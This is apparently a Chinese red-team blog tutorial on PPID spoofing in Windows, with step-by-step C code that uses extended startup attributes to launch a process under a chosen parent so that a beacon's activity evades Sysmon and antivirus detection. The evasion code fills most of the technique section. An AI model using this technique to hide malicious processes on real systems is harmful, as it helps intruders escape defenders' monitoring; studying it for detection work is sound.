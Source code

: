 ```yaml
---
title: PPID欺骗
date: 2022-10-25
categories: [红蓝对抗]
tags: [红蓝对抗，渗透技巧]
---
```


## 0X00 PPID欺骗介绍

在我们使用`CreateProcess `API时，默认情况下，最后的进程将作为调用方的子进程生成。然而，"PPID欺骗"技术允许调用者更改派生进程的父进程。所以如果我们的`beacon`运行在`powershell`中，我们可以就将进程派生到一个完全不同的进程的子进程中，比如`explorer.exe` 。在默认情况下，大多数需要用户交互启动的程序都是由`explorer.exe`生成的。

这将导致`Sysmon`等应用程序记录新父级下的进程创建。当一个`beacon`在一个不合法的进程中运行(例如横向移动或其他一些漏洞传递)，并且进程创建事件会被杀软检测或被完全阻止，那么这个方法可以用来对抗这种检测。

## 0x01 进程、PID和PPID

**进程：**在 `Windows` 中，应用程序由一个或多个进程组成。简单来说，当前正在运行的程序的一部分称为进程。不同的应用程序可能会使用相同的进程(如`cmd.exe`)，并且为避免歧义，会分配一个整数来区分一个进程和另一个进程。该整数称为`PID`。

**PID：**代表进程标识符 (`PID`)，它是正在运行的进程的数字表示。`Windows` 中通过 `GetCurrentProcessID()` 函数返回指定进程的 `PID`。

**父进程：**父进程是可以派生多个子进程的进程。例如，命令`explorer.exe /e,/root,"C：\WINDOWS\System32\cmd.exe"`将派生`cmd.exe`作为父进程`explorer.exe`的子进程。在代码中，父进程可以使用`fork()`系统调用来派生子进程。

**PPID：**代表父进程标识符(`PPID`)，它是提供给父进程的数字表示形式。任何包含子进程的进程都存在父子关系。

## 0x02 技术实现

这个技术是在[STARTUPINFOEX](https://learn.microsoft.com/zh-cn/windows/win32/api/winbase/ns-winbase-startupinfoexw) 结构中实现的，这个结构具有`LPPROC_THEAD_ATTRIBUTE_LIST`属性。这允许我们向`CreateProcess`调用传递附加属性。对于PPID欺骗，我们关注的`PROC_THREAD_ATTRIBUTE_PARENT_PROCESS`。`lpValue`参数是指向要使用的进程句柄的指针，而不是将调用进程用作正在创建的进程的父进程。要使用的进程必须具有`process_CREATE_process`访问权限。 

下面用一段简短的代码来实现获取父进程PID和初始化

```c
#include <iostream>
#include <Windows.h>
#include <winternl.h>

int main(int argc, const char* argv[])
{
	//获取父进程PID
	DWORD parentPid = atoi(argv[1]);

	//初始化
	STARTUPINFOEX sie = { sizeof(sie) };
}
```

我们需要先知道所需的大小，然后分配一个内存区域来保存属性列表。这个列表可以有多个属性，但由于我们只对`PROC_THREAD_ATTRIBUTE_PARENT_PROCESS`感兴趣，因此大小为1。所以我们调用`InitializeProcThreadAttributeList`并提供`NULL目标`，但`lpSize`变量将填充我们需要的大小。因为这个API返回`bool`，所以这个调用也将始终返回`FALSE`。

```c
SIZE_T lpSize;
InitializeProcThreadAttributeList(NULL, 1, 0, &lpSize);
```

接下来我们使用`malloc`在`STARTUPINFOEX`的`lpAttributeList`属性上分配内存区域。我们再次调用`InitializeProcThreadAttributeList`，它应该返回`TRUE`。

```c
//为STARTUPINFOEX上的属性列表分配内存
sie.lpAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST)malloc(lpSize);

//再次调用InitializeProcThreadAttributeList，此时应返回TRUE
if (!InitializeProcThreadAttributeList(sie.lpAttributeList, 1, 0, &lpSize))
{
	printf("InitializeProcThreadAttributeList failed. Error code: %d.\n", GetLastError());
	return 0;
}
```

获取父进程的句柄并将其传递到`UpdateProcThreadAttribute`的调用中。 

```c
//获取进程的句柄以充当父进程
HANDLE hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, parentPid);

//调用UpdateProcThreadAttribute
if (!UpdateProcThreadAttribute(sie.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL))
{
	printf("UpdateProcThreadAttribute failed. Error code: %d.\n", GetLastError());
	return 0;
}
```

剩下要做的就是调用`CreateProcess`，确保传递`EXTENDED_STARTUPINFO_PRESENT`

```c
//调用CreateProcess并传递EXTENDED_STARTUPINFO_PRESENT
PROCESS_INFORMATION pi;

if (!CreateProcess(
	L"C:\\Windows\\System32\\notepad.exe",
	NULL,
	0,
	0,
	FALSE,
	EXTENDED_STARTUPINFO_PRESENT,
	NULL,
	L"C:\\Windows\\System32",
	&sie.StartupInfo,
	&pi))
{
	printf("[-] CreateProcess failed. Error code: %d.\n", GetLastError());
	return 0;
}

printf("[+] PID created: %d", pi.dwProcessId);
return 1;
```

## 0x03  实现效果

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-25/ppid_success1.jpg)

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-25/ppid_success2.jpg)



## 0x04 小结

本文介绍了PPID欺骗实现原理以及怎么用Windows API 去实现

### 注：本文仅用于安全研究和学习之用